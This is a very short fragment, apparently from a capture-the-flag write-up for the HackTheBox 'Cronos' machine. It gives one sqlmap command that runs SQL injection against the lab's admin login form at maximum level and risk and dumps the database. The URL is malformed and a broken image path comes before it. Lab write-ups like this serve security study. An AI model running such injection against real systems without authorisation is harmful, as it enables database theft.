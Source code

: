 ## sqlmap
`sqlmap -u "http://http://admin.cronos.htb/index.php" --dbms=MySQL --dump --data "uname=test&psw=pass" --level=5 --risk=3`
